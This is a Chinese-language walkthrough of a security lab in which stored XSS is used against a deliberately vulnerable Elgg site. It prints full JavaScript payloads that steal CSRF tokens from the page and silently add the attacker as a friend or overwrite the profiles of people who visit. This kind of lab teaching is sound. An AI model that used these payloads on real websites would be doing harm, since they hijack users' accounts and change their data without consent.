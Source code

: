 # XSS攻击

## 先尝试是否可以注入JavaScript代码

在Samy个人资料Brief description区域输入：
```javascript
<script>alert("XSS");</script>
```
当访问Samy个人主页时，都会有弹框：  
![判断是否存在xss漏洞](../img/xss-vul.png)

说明这个网络应用程序存在XSS漏洞。

## 实验一：通过XSS攻击成为他人的好友

攻击要实现的目标是当其他人访问Samy主页时，自动把Samy加为其好友。

### 观察所需字段

首先登录Samy账户，单击"添加好友"，把Charlie加为好友
![添加好友请求](../img/xss-addfriend.png)
请求url：  
```bash
http://www.xsslabelgg.com/action/friends/add?friend=46&__elgg_ts=1619057435&__elgg_token=JyjS52JvJcwI4nhsiy4e_g&__elgg_ts=1619057435&__elgg_token=JyjS52JvJcwI4nhsiy4e_g
```
cookie浏览器会自动设置，故不用关心这个值  

!!! warning

    __elgg_ts和__elgg_token是为了应对CSRF攻击的对策，xss实验中又被打开了，故要正确设置这两个值

故主要挑战在于如何找出__elgg_ts和__elgg_token两个值。当浏览Elgg页面时，右击--View Page Source  
```javascript
<script>
var elgg = {"config":{"lastcache":1549469404,"viewtype":"default","simplecache_enabled":1},"security":{"token":{"__elgg_ts":1619057910,"__elgg_token":"ILY6_jevictA27xGzCMI_g"}},"session":{"user":{"guid":47,"type":"user","subtype":"","owner_guid":47,"container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:30:59+00:00","time_updated":"2021-04-22T01:55:28+00:00","url":"http:\/\/www.xsslabelgg.com\/profile\/samy","name":"Samy","username":"samy","language":"en","admin":false},"token":"WZEvmX7f1a5pubrP72LT5O"},"_data":{}};
</script>
```
可知这两个值可以通过elgg.security.token.__elgg_ts和elgg.security.token.__elgg_token这两个js变量获取。

从members页面可以看到Samy账户id为47  
![samy的id](../img/xss-samy.png)

### 构造添加好友请求

CSRF需要构造一个恶意网页，而XSS则是从一个Elgg页面发送请求。如果只是发送一个普通的http请求，将
导致浏览器离开当前页面从而引起用户警觉。可以使用Ajax在后台发送http请求。

```html
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  var sendurl = "http://www.xsslabelgg.com/action/friends/add" 
                + "?friend=47" + token + ts;
  
  Ajax = new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  Ajax.send();
}
</script>
```

### 把恶意代码放到Samy的个人主页

![samy的恶意代码](../img/xss-samy-evil.png)

!!! warning 

    这个区域编辑器默认模式支持格式化文本，会向文本添加格式数据，故要点击Edit HTML切换到明文模式。

!!! Note

    如果没有提供明文编辑器，可以使用浏览器扩展来删除HTTP请求中的格式化数据，或使用其他客户端（如curl）
    来发送请求。

### 其他人访问Samy主页就会添加他为好友

登陆alice账户，访问samy，发现samy已经在好友列表中，实验成功。
![xss攻击成功](../img/xss-samy-website.png)

## 实验二：使用XSS攻击更改他人主页

### 观察所需字段

![更改个人信息](../img/xss-edit-profile.png)

看到参数如下：
![更改主页的参数](../img/xss-params.png)

### 构造Ajax请求改个人信息

```html
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var name = "&name=" + elgg.session.user.name;
  var desc = "&description=Samy is my hero" + "&accesslevel[description]=2";
  
  var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 47){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
</script>
```
再把恶意代码放入个人主页

### 其他人访问Samy主页就会更新自己的主页

登陆alice账户，访问samy主页，会发现自己的主页已经被改掉  
![攻击主页成功](../img/xss-webpage.png)



